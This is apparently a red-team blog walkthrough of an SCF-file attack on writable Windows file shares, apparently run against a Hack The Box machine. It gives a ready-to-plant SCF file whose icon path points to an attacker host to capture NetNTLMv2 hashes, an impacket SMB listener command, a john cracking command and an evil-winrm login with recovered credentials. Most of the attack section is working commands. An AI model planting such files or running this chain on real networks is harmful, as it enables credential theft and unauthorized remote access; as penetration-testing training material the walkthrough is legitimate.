 ```yaml
---
title:  "using-a-scf-file-to-gather-hashes"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: SMB-SCF  File Attacks(NetNTLMv2 hash(challenge) grab)
categories:
  - Red-Teaming
toc: true
---
```


Have you ever been on a internal network assessment and discovered an unauthenticated writable Windows-based file share? Well, in addition to finding potentially sensitive information, you can abuse this to gather user hashes from users who are browsing the file share.

## Gathering Hashes
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.
However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack.

## Create a file
The code  can be placed inside a text file which then needs to be planted into a network share.

Saving as SCF file will make the file to be executed when the user will browse the file

Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.
```
[shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Replace with your IP address of where you have Responder listening.

<img src="/img/fci/pay.PNG" alt="Getting-gz" width="800" height="200"> 

Next upload the file into the Desktop within the Public Folders.
The Public/Desktop folder is accessed every time any users logs in.
Therefore when the user logs in, the icon is requested from our attackers box, 
a challenge request is requested by the attacker, a challenger response is then returned to use with the NetNTLMv2.

## set listener 
```
impacket-smbserver -debug -smb2support share /home/nored0x/Desktop/HTB/driver     
```
<img src="/img/fci/listner.PNG" alt="Getting-gz" width="800" height="200"> 


<img src="/img/fci/hash.PNG" alt="Getting-gz" width="1000" height="300"> 

## crack hash 
```
john hash -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/fci/john.PNG" alt="Getting-gz" width="800" height="200"> 


## connect with evil-winrm
```
./evil-winrm.rb -i 10.10.11.106 -u tony -p liltony 
download tool:https://github.com/Hackplayers/evil-winrm
``` 
 
<img src="/img/fci/connect.PNG" alt="Getting-gz" width="800" height="200"> 

  
                       
